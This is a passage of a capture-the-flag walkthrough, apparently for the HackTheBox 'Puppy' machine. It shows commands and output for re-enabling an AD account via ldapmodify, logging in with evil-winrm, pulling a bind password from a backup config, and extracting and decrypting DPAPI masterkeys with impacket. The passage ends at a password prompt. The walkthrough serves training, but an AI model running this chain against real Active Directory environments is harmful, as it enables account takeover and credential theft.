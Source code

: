  We have to modify ldap configuration to remote machine to use `evil-winrm`. First add the following configurations to new `modify.ldif` file  and modify ldap with this file:
```ldif
dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
changetype: modify
replace: userAccountControl
userAccountControl: 512
```

```console
$ ldapmodify -x -H ldap://10.10.11.70 -D 'ant.edwards@puppy.htb' -w '[REDACTED] -f modify.ldif
```
Now, use `evil-winrm` to get a shell with `adam.silver` user and get the flag in :
```console
$ evil-winrm -u adam.silver -p 'Ghost@2025!' -i 10.10.11.70
```

## Root Flag
By enumerating, we can see that there is site backup file in `C:\Backups` directory, we can use `download` to get this ZIP file. We can find password for `steph.cooper` in `nms-auth-config.xml.bak`
```console
$ cat nms-auth-config.xml.bak 
...
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>[REDACTED]</bind-password>
    </server>
...
```

### Cracking the DPAPI Masterkey
We can use this credential to get a shell using `evil-winrm`. Now, we can look for the masterkey file in `C:\Users\steph.cooper\AppData\Roaming\microsoft\protect\{SID}` directory. Use following command to see hidden file and download it to our machine:
```console
*Evil-WinRM* PS C:\Users\steph.cooper\AppData\Roaming\microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> Get-ChildItem -Hidden

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:40 AM            740 556a2412-1275-4ccf-b721-e6a0b4f90407
-a-hs-         2/23/2025   2:36 PM             24 Preferred
```
Same way we can download the Credential file from the location `C:\Users\steph.cooper\AppData\Roaming\microsoft\Credentials`.

Now, we will use `dpapi.py` to crack these file, after running the command it will prompt for the password of user `steph.cooper` :
```console
└─$ python3 dpapi.py masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Password:
```